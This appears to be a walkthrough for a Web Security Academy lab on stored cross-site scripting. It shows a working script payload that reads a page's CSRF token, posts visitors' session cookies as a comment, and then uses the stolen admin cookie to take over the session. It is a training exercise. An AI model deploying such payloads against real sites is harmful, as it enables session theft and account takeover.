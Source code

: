 # XSS LAB 22 - Exploiting cross-site scripting to steal cookies

## Manual Solution

### 1. Access the Lab.
- Open the Web Security Academy lab environment in your browser.

### 2. Creating a comment:
- Comment: `<script>alert('XSS')</script>`
- Name: `Anything`
- Email: `Anything@anything.com`
- Website: `https://www.anything.com`
- Submit to comment and an alert pop-up appears.
- This confirms that we can inject arbitrary JavaScript code

### 3. Inspecting the Form Elements.
- Inspect the post page. You'll see a form element.
```html
 <form action="/post/comment" method="POST" enctype="application/x-www-form-urlencoded">
    <input required type="hidden" name="csrf" value="KYE5AGcZujltNAyFT9tcICBwoW3y1lEC">
    <input required type="hidden" name="postId" value="6">
    <label>Comment:</label>
    <textarea required rows="12" cols="300" name="comment"></textarea>
        <label>Name:</label>
        <input required type="text" name="name">
        <label>Email:</label>
        <input required type="email" name="email">
        <label>Website:</label>
        <input pattern="(http:|https:).+" type="text" name="website">
        <button class="button" type="submit">Post Comment</button>
</form>
```
- There are six required fields. CSRF token and POST ID are hidden.
- We can retrieve CSRF token using:
```js
document.getElementsByName("csrf")[0].getAttribute('value');
```

### 4. Stealing cookies
- We can inject and execute any JavaScript code we want.
- Create a comment
    - Name: `Anything`
    - Email: `Anything@anything.com`
    - Website: `https://www.anything.com`
    - Comment: 

    ```js
    <script>
        window.onload = function() {
            let csrf_token = document.getElementsByName("csrf")[0].getAttribute('value');

            if (!csrf_token) {
                console.error("CSRF token not found!");
                return;
            }
        
            let data = new FormData();
            data.append('postId', '1');
            data.append('csrf', csrf_token);
            data.append('comment', document.cookie);
            data.append('name', 'kurabiye');
            data.append('email', 'asd@asd.com');
            data.append('website', 'https://www.google.com');
            
            fetch('https://[YOUR_LAB_ID].web-security-academy.net/post/comment', {
                method: 'POST',
                mode: 'no-cors',
                body: data
            });
        }
    </script>
    ```
    - When a victim visits the post page this JavaScript code automatically creates a comment containing the victim's cookies.
    - The `fetch` function sends a POST request to the relevant URL. This function has a parameter called body which is used to send data to the server.
    - The data variable stores form data. We use `data.append` to add our desired data to the form data.

### 5. Logging in as Admin:
- After submitting the injected comment you will see the session data in the comments.
- Copy the session data.
- Open the Inspect tool (Developer Tools).
- Navigate to the Storage tab.
- Go to Cookies and select the target website.
- Paste the copied session value into the relevant cookie field.


## Automated Solution

### 1. Download the script
### 2. Run the script with the following command:
```sh
python xss_lab_22.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)
```